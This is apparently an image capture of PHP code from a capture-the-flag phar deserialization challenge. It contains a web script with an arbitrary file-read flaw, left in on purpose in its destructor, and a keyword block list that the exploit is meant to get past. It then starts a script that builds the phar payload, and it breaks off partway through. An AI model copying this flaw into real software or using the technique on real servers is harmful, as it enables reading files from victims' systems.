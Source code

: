 ```php
/*--------------------------------------------网站脚本--------------------------------------------*/
//需想办法把phar文件弄到对方服务器上，需结合文件上传之类的漏洞
<?php

class web_content
{
    public $file = "fake.txt";
    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        echo file_get_contents("fake.txt") ."<br>";
    }

    function __destruct()
    {
        echo "Breaking news! at file: ".$this->file."<br>";
        if($file === "fake.txt")
        {
            echo "oops, I am a fake media.";
            exit();
        }

        echo file_get_contents($this->file) ."<br>";


    }
}

if(array_key_exists("file",$_GET))
{
    
    if(stristr($_GET['file'],"http") || stristr($_GET['file'],"flag")|| stristr($_GET['file'],"ftp")|| stristr($_GET['file'],"file")|| stristr($_GET['file'],"..")|| stristr($_GET['file'],"data"))
    {
        echo "hacker!";
        exit();
    }

    $web = new web_content();
    $web->file = $_GET['file'];
    $web->show_fakenews();
}
else{
    echo "file=web_content";
    echo "<br><br><br>";
    highlight_file(__FILE__);
    exit();
    
}
?>
/*--------------------------------------------生成phar文件--------------------------------------------*/
//找个地方执行下这个脚本，得到phar文件
<?php
//先把phar.readonlly设置为Off
//把要进行反序列化的对象放在此处
class web_content
{
    public $file = "fake.txt";
    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        echo file_get_contents("fake.txt") ."<br>";
```